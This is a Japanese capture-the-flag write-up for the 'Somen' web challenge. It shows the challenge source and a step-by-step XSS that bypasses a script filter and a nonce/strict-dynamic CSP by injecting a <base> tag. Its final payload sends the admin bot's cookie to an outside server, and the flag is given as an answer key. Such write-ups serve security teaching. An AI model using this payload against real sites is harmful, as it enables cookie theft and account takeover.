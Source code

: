 # Somen
421 pt (20 Solves)
```
Somen is tasty.
[url]
```

<details>
  <summary>worker.js</summary>
  
  ```js
  const puppeteer = require('puppeteer');

/* ... ... */

// initialize
const browser = await puppeteer.launch({
    executablePath: 'google-chrome-unstable',
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disk-cache-dir=/dev/null',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
    ],
});
const page = await browser.newPage();

// set cookie
await page.setCookie({
    name: 'flag',
    value: process.env.FLAG,
    domain: process.env.DOMAIN,
    expires: Date.now() / 1000 + 10,
});

// access
// username is the input value of players
const url = `[url]/?username=${encodeURIComponent(username)}`;
try {
    await page.goto(url, {
        waitUntil: 'networkidle0',
        timeout: 5000,
    });
} catch (err) {
    console.log(err);
}

// finalize
await page.close();
await browser.close();

/* ... ... */
  ```
</details>
<details>
  <summary>index.php</summary>
  
  ```php
  <?php
$nonce = base64_encode(random_bytes(20));
header("Content-Security-Policy: default-src 'none'; script-src 'nonce-${nonce}' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='");
?>

<head>
    <title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>

    <script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A="></script>
    <script nonce="<?= $nonce ?>">
        const choice = l => l[Math.floor(Math.random() * l.length)];

        window.onload = () => {
            const username = new URL(location).searchParams.get("username");
            const adjective = choice(["Nagashi", "Hiyashi"]);
            if (username !== null)
                document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
        }
    </script>
</head>

<body>
    <h1>Best somen for You</h1>

    <p>Please input your name. You can use only alphabets and digits.</p>
    <p>This page works fine with latest Google Chrome / Chromium. We won't support other browsers :P</p>
    <p id="message"></p>
    <form action="/" method="GET">
        <input type="text" name="username" place="Your name"></input>
        <button type="submit">Ask</button>
    </form>
    <hr>

    <p> If your name causes suspicious behavior, please tell me that from the following form. Admin will acceess /?username=${encodeURIComponent(your input)} and see what happens.</p>
    <form action="/inquiry" method="POST">
        <input type="text" name="username" place="Your name"></input>
        <button type="submit">Ask</button>
    </form>

</body>
  ```
</details>

## 概要
テキストボックスが2つある。1個は自分で実行、もう1個はクローラーに実行させる。  
usernameに入力した内容が挿入されるので、XSSだろう。
しかし`security.js`とCSPの所為で全然上手くいかない。

`worker.js`をみるとcookieにflagがあるのがわかる。  

## 解
目標は2つ。
1. security.jsの制限をバイパス
1. CSPのバイパス

#### security.jsの制限をバイパス

```html
</title><base href="//example.com">
```

これを書き込むと以下のような状態になる。

```html
<base href="//example.com">  
<script src="./security.js">
```

`./security.js`は`example.com/security.js`として処理され、コンソールログに404が表示される。  

#### CSPのバイパス
`security.js`はバイパスできたので次はCSPのバイパスを目指す。  
CSPの`nonce`と`strict-dynamic`のバイパスを調べてたら[良さげな記事](https://szarny.hatenablog.com/entry/2019/01/01/XSS_Challenge_%28%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%83%BB%E3%83%9F%E3%83%8B%E3%82%AD%E3%83%A3%E3%83%B3%E3%83%97_in_%E5%B2%A1%E5%B1%B1_2018_%E6%BC%94%E7%BF%92%E3%82%B3%E3%83%B3)。case23が似てる状況。  
既に実行を許可されたscriptタグの中に任意のjsを埋め込みたい。
case23を参考にとりあえず書いてみる。

```html
<p id="message">[username], I recommend Nagashi somen for you.</p>
```

のように代入されてるので、idがmessageなscriptタグを作る。

```
alert();//</title><script id="message"></script><base href="http://example.com">
```

上を入力するとHTMLは以下のようになる。HTMLとしては壊れてるけど、よしなにしてくれる。  
titleに代入されたうえでidがmessageなとこに代入されるので結構ごちゃごちゃ。

```html
 <title>Best somen for alert();//</title>
 <script id="message">
 alert();//</title><script id="message"></script><base href="http://example.com">, I recommend Nagashi somen for you.
 </script><base href="http://example.com">
```

アクセスされたときにurlを表示するようなwebサーバを用意して

```
document.location=`/?q=${encodeURIComponent(document.cookie)}`;//</title><script id="message"></script><base href="[url]">
```

を入力すればflag。

```
ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```